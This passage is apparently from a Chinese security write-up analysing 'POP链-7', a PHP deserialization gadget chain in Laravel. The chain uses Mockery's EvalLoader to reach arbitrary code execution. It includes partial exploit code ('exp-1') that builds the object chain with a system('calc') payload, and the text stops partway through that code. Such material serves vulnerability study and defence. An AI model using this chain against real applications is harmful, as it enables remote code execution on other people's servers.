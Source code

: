 ![undefined](https://p5.ssl.qhimg.com/t0128e03ec10214febd.png "undefined")

## POP链-7
继续接着上一条链子的`call_user_func()`方法往后，由于这里变量是可控的，因此可以调用任意类的方法，跟进`library/Mockery/Loader/EvalLoader.php`中的`load()`方法，这里如果不进入 if 循环从而触发到`getCode()`方法即可造成任意代码执行漏洞

![undefined](https://p4.ssl.qhimg.com/t016931a8ff7a493d3a.png "undefined")

看看 if 循环的判断条件，一路跟进调用，由于最后的`$this->name`是可控的，因此只需要给它赋一个不存在的类名值即可，可利用的`getName()`方法比较多，选一个能用的就行

![undefined](https://p2.ssl.qhimg.com/t01cd6d0337cb7b6592.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t01a97a79073d0c1170.png "undefined")

### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
```